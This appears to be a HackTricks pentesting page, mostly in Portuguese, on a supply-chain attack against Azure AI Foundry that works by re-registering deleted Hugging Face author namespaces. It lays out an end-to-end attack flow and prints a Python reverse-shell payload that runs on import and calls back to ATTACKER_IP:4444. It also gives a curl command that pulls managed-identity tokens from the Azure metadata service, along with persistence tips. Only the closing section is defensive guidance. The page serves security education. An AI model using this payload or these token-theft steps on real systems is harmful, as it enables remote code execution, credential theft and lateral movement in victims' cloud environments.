 # Azure - AI Foundry Post-Exploitation via Hugging Face Model Namespace Reuse

{{#include ../../../banners/hacktricks-training.md}}

## Scenario

- Azure AI Foundry Model Catalog inclui muitos modelos da Hugging Face (HF) para implantação com um clique.
- Identificadores de modelos HF são Author/ModelName. Se um author/org da HF for deletado, qualquer pessoa pode re-registrar esse author e publicar um modelo com o mesmo ModelName no caminho legado.
- Pipelines e catálogos que puxam apenas pelo nome (sem commit pinning/integrity) irão resolver para repositórios controlados pelo atacante. Quando o Azure implanta o modelo, código do loader pode ser executado no ambiente do endpoint, concedendo RCE com as permissões desse endpoint.

Casos comuns de takeover do HF:
- Ownership deletion: o caminho antigo retorna 404 até o takeover.
- Ownership transfer: o caminho antigo responde 307 para o novo author enquanto o author antigo existe. Se o author antigo for deletado depois e re-registrado, o redirect quebra e o repositório do atacante é servido no caminho legado.

## Identifying Reusable Namespaces (HF)
```bash
# Check author/org existence
curl -I https://huggingface.co/<Author>        # 200 exists, 404 deleted/available

# Check model path
curl -I https://huggingface.co/<Author>/<ModelName>
# 307 -> redirect (transfer case), 404 -> deleted until takeover
```
## Fluxo de Ataque de ponta a ponta contra Azure AI Foundry

1) No Catálogo de Modelos, encontre modelos HF cujos autores originais foram excluídos ou transferidos (autor antigo removido) no HF.  
2) Re-registre o autor abandonado no HF e recrie o ModelName.  
3) Publique um repositório malicioso com código loader que é executado na importação ou requer trust_remote_code=True.  
4) Implemente o Author/ModelName legado a partir do Azure AI Foundry. A plataforma puxa o repositório do atacante; o loader executa dentro do container/VM do endpoint Azure, resultando em RCE com permissões do endpoint.

Fragmento de payload de exemplo executado na importação (apenas para demonstração):
```python
# __init__.py or a module imported by the model loader
import os, socket, subprocess, threading

def _rs(host, port):
s = socket.socket(); s.connect((host, port))
for fd in (0,1,2):
try:
os.dup2(s.fileno(), fd)
except Exception:
pass
subprocess.call(["/bin/sh","-i"])  # or powershell on Windows images

if os.environ.get("AZUREML_ENDPOINT","1") == "1":
threading.Thread(target=_rs, args=("ATTACKER_IP", 4444), daemon=True).start()
```
Notas
- Implantações do AI Foundry que integram HF tipicamente clonam e importam módulos do repo referenciados pela config do modelo (e.g., auto_map), o que pode disparar code execution. Alguns caminhos exigem trust_remote_code=True.
- O acesso geralmente corresponde às permissões do endpoint’s managed identity/service principal. Treat it as an initial access foothold for data access and lateral movement within Azure.

## Post-Exploitation Tips (Azure Endpoint)

- Enumerate environment variables and MSI endpoints for tokens:
```bash
# Azure Instance Metadata Service (inside Azure compute)
curl -H "Metadata: true" \
"http://169.254.169.254/metadata/identity/oauth2/token?api-version=2018-02-01&resource=https://management.azure.com/"
```
- Verifique o armazenamento montado, os artefatos do modelo e os serviços Azure alcançáveis com o token adquirido.
- Considere persistência deixando artefatos do modelo envenenados caso a plataforma re-puxe do HF.

## Orientações defensivas para usuários do Azure AI Foundry

- Fixe modelos por commit ao carregar do HF:
```python
from transformers import AutoModel
m = AutoModel.from_pretrained("Author/ModelName", revision="<COMMIT_HASH>")
```
- Espelhar modelos HF verificados em um registro interno confiável e implantar a partir daí.
- Escanear continuamente bases de código e defaults/docstrings/notebooks em busca de Author/ModelName hard-coded que foram deletados/transferidos; atualizar ou pin.
- Validar a existência do Author e a proveniência do modelo antes da implantação.

## Heurísticas de Reconhecimento (HTTP)

- Author deletado: página do Author 404; caminho legado do modelo 404 até takeover.
- Modelo transferido: caminho legado 307 para o novo Author enquanto o Author antigo existe; se o Author antigo for deletado e re-registrado depois, o caminho legado serve conteúdo do atacante.
```bash
curl -I https://huggingface.co/<OldAuthor>/<ModelName> | egrep "^HTTP|^location"
```
## Referências Cruzadas

- Veja a metodologia mais ampla e notas sobre cadeia de suprimentos:

{{#ref}}
../../pentesting-cloud-methodology.md
{{#endref}}

## Referências

- [Model Namespace Reuse: An AI Supply-Chain Attack Exploiting Model Name Trust (Unit 42)](https://unit42.paloaltonetworks.com/model-namespace-reuse/)
- [Hugging Face: Renaming or transferring a repo](https://huggingface.co/docs/hub/repositories-settings#renaming-or-transferring-a-repo)

{{#include ../../../banners/hacktricks-training.md}}
